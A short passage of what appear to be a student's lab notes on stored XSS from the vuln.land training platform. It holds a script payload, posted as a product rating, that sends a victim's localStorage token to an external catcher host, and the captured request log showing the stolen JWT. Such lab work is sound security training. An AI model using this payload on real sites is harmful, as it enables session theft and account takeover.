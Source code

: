```javascript
<script>alert("XSS");</script>
```

- based that and on given code from the lecture tried to add this javascript code as a rating to send the token to the catcher

```javascript
<script>
  XSSImage=new
  Image;XSSImage.src='https://a8934706-d080-4c6f-be16-b4c7799ca5c2.idocker.vuln.land/abcd?token='
  + localStorage.getItem('token');
</script>
```

```
URL: http://a8934706-d080-4c6f-be16-b4c7799ca5c2.idocker.vuln.land/abcd?token=%22eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1JldGFpbGVyIjpmYWxzZSwiX2lkIjoiNWFhMDQ4MWU4NzZkOWQzOWQ0Mzk3ODVjIiwidXNlcm5hbWUiOiJjdXN0b21lcjEiLCJmaXJzdG5hbWUiOiJQZXRlciIsImxhc3RuYW1lIjoiSG9sem1hbm4iLCJlbWFpbCI6IlBldGVyLkhvbHptYW5uQGdtYWlsLmNvbSIsImlhdCI6MTY5NjY5ODc0OSwiYXVkIjoic2VsZiIsImlzcyI6IndlYnNob3AifQ.z_IUAAZGinu9iiIEzGAl80YSM5imUt1fQInUJWC85xk%22
METHOD: GET
IP: 10.20.0.1
Time: 2023-10-07 17:50:13
Headers:
Host: a8934706-d080-4c6f-be16-b4c7799ca5c2.idocker.vuln.land
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: image/avif,image/webp,*/*
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.5
Referer: https://7f8431c8-77fa-4f2d-8339-e65c99d9a4e6.idocker.vuln.land/
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-site
Te: trailers
X-Forwarded-For: 51.154.62.18
X-Forwarded-Host: a8934706-d080-4c6f-be16-b4c7799ca5c2.idocker.vuln.land
X-Forwarded-Port: 443
X-Forwarded-Proto: https
X-Forwarded-Server: vm-docker-01.vuln.land
X-Real-Ip: 51.154.62.18


QueryString:
b'token=%22eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1JldGFpbGVyIjpmYWxzZSwiX2lkIjoiNWFhMDQ4MWU4NzZkOWQzOWQ0Mzk3ODVjIiwidXNlcm5hbWUiOiJjdXN0b21lcjEiLCJmaXJzdG5hbWUiOiJQZXRlciIsImxhc3RuYW1lIjoiSG9sem1hbm4iLCJlbWFpbCI6IlBldGVyLkhvbHptYW5uQGdtYWlsLmNvbSIsImlhdCI6MTY5NjY5ODc0OSwiYXVkIjoic2VsZiIsImlzcyI6IndlYnNob3AifQ.z_IUAAZGinu9iiIEzGAl80YSM5imUt1fQInUJWC85xk%22'
===================================================
```

# XSS – DOM based
